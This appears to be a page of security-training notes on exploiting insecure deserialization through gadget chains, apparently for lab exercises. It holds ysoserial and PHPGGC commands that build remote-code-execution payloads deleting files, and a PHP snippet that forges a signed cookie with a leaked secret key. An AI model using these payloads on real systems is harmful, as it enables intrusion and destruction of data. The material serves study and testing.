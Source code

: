 * **GadgetA**: <mark style="color:red;">**`__wakeup()`**</mark> method calls <mark style="color:red;">**`trigger()`**</mark> on <mark style="color:red;">**`next`**</mark>.
* **GadgetB**: <mark style="color:red;">**`trigger()`**</mark> method executes the payload using <mark style="color:red;">**`eval()`**</mark>.
* **Malicious Data**: The attacker constructs a serialized chain that sets `next` to a `GadgetB` object with a payload, leading to code execution.

Example in Java using ysoseial:

In Java, gadget chains can be constructed using libraries like Apache Commons Collections. The ysoserial tool automates this for known chains.

{% code overflow="wrap" %}
```sh
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
     --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
     --add-opens=java.base/java.net=ALL-UNNAMED \
     --add-opens=java.base/java.util=ALL-UNNAMED \
     -jar Downloads/ysoserial-0.0.6-all.jar CommonsCollections4 'rm /home/carlos/secret.txt'
```
{% endcode %}

PHP Example Using PHPGGC:

```bash
phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w0
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

#### Working with Pre-built Gadget Chains

* **Tools**: Use tools like <mark style="color:red;">**`ysoserial`**</mark> for Java or <mark style="color:red;">**`PHPGGC`**</mark> for **PHP** to generate serialized objects that exploit known gadget chains.
* **Universal Chains**: Use universal chains like <mark style="color:red;">**`URLDNS`**</mark> in Java for detection, triggering DNS lookups to confirm deserialization.
* **Documentation**: Look for documented exploits or pre-built chains online if a dedicated tool is unavailable.
